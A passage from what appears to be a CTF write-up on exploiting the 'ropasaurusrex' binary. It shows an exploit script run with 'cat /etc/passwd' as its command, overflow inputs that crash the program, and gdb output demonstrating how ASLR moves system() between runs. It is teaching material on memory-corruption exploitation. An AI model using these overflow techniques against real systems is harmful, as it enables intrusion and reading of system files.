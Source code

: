 ```
<span class="lnr">4 </span><span class="Identifier">bin</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Comment">bin</span><span class="Normal">:</span><span class="Type">/bin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">5 </span><span class="Identifier">...</span>
```

And if you look at the 'core' file dumped, you'll see it's crashing at <tt>0x44444444</tt> as expected.

Done, right?

WRONG!

This worked great against my test machine, but when ASLR is enabled, it failed:

```

<span class="lnr">1 </span>$ sudo sysctl <span class="Special">-w</span> <span class="Identifier">kernel.randomize_va_space</span>=<span class="Constant">1</span>
<span class="lnr">2 </span>kernel.randomize_va_space <span class="Statement">=</span> <span class="Constant">1</span>
<span class="lnr">3 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">cat /etc/passwd</span><span class="Statement">"</span>
```

This is where it starts to get a little more complicated. Let's go!

## What is ASLR?

ASLR - or address space layout randomization - is a defense implemented on all modern systems (except for FreeBSD) that randomizes the address that libraries are loaded at. As an example, let's run ropasaurusrex twice and get the address of <tt>system()</tt>:

```

<span class="lnr"> 1 </span>ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">'</span><span class="Constant">printf "A"x1000</span><span class="Statement">'</span> | ./ropasaurusrex
<span class="lnr"> 2 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr"> 3 </span>ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr"> 4 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr"> 5 </span><span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr"> 6 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr"> 7 </span>0xb766e450 <span class="Statement"><</span>system<span class="Statement">></span>:    0x890cec83
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span>ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">'</span><span class="Constant">printf "A"x1000</span><span class="Statement">'</span> | ./ropasaurusrex
<span class="lnr">10 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr">11 </span>ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">12 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">13 </span><span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr">14 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr">15 </span>0xb76a7450 <span class="Statement"><</span>system<span class="Statement">></span>:    0x890cec83
```
